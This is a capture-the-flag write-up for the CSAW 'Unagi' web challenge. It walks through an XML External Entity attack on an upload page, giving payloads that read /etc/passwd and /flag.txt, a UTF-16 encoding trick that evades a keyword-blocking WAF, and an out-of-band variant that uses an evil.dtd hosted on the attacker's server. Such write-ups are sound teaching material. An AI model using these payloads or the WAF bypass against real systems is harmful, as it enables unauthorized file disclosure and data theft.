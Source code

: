 # Unagi writeup - 200pts

## What we have
The chall provide us with a link to a very basic website of 4 pages:

![Screenshot of the challenge website](Screenshots/1.jpg)

So we know the flag is located at `/flag.txt`.
In the upload page we can download this XML file:

    <?xml version='1.0'?>
	<users>
		<user>
			<username>alice</username>
			<password>passwd1</password>
			<name>Alice</name>
			<email>alice@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
		<user>
			<username>bob</username>
			<password>passwd2</password>
			<name> Bob</name>
			<email>bob@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
	</users>

And uploading it, we get this result:

![Screenshot after the sample.xml upload](Screenshots/2.jpg)

## About the vulnerability
This seems to be the classic situation in which it is possible to exploit an XML External Entity ([XXE](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)) vulnerability.

In these cases the first thing I usually try is the following payload to read a file (for example `/etc/passwd`, which is accessible by any user on linux):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTITY flag SYSTEM "file:///etc/passwd">
	]>
	<users>
	    <user>
	        <username>AAA</username>
	        <password>BBB</password>
	        <name>&flag;</name>
	        <email>CCC</email>  
	        <group>DDD</group>
	    </user>
	</users>

But there's a Web Application Firewall (WAF) that is blocking our file:

![Screenshot of the WAF blocking our exploit](Screenshots/3.jpg)

## The WAF
Trying to remove or change some things, I realized that the WAF checks that the content of the file does not correspond to a blacklist of words.

For example, the following code (I just added an "X" inside "ENTITY" , "SYSTEM" and "file") is not blocked (but it no longer works):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTXITY flag SYSXTEM "fiXle:///etc/passwd">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>&flag;</name>
			<email>CCC</email>  
			<group>DDD</group>
		</user>
	</users>

Two options to bypass the WAF:
- don't use blacklisted words (maybe impossible)
- [play with encodings](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0#a3ca)

I just tried to save the original payload (after adding `encoding='utf-16'` to the XML opening tag) in UFT-16LE (I used Notepad++ on Windows, but I'm sure that other editors can make this too; for example I've seen someone doing this challenge with VSCode and others with Gedit and [some terminal commands](https://stackoverflow.com/questions/64860/best-way-to-convert-text-files-between-character-sets)).

Uploading it, we can finally read `/etc/passwd`... Or not?

![Output is truncated, screenshot](Screenshots/4.jpg)

Argh, our output is truncated!

At this point, I propose two solutions.

## Solution #1 - Look for another output field
I checked all the others output fields and... They were all truncated.

After a while, I realized that the "User" page (look at the first screenshot of this writeup) showed a field named "intro", which is not used inside the "example format" downloaded.

Maybe it isn't truncated? Let's check, this time trying to obtain the flag file.

(Remember to save this as UTF-16LE to bypass WAF)

    <?xml version='1.0' encoding="utf-16"?>
    <!DOCTYPE foo [
	    <!ENTITY file SYSTEM "file:///flag.txt">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>CCC</name>
			<email>DDD</email>
			<group>EEE</group>
			<intro>&file;</intro>
		</user>
	</users>

![Got the flag](Screenshots/5.jpg)

Bingo!

## Solution 2 - Out Of Band (OOB)
A classic Out of Band XXE didn't work here, because flag.txt contained newline characters and broke HTTP requests to my server.

To make it work, I first had to encode the contents of flag.txt file using the PHP Wrapper php://filter/read=convert.base64-encode/resource=file:///flag.txt.

Then, looking at my server logs, I saw I received the encode flag and I decoded it.

You can see my final exploit files into the "Solution2-OOB" folder. Unagi.xml was the file I uploaded to the challenge, while evil.dtd was the file on my server.
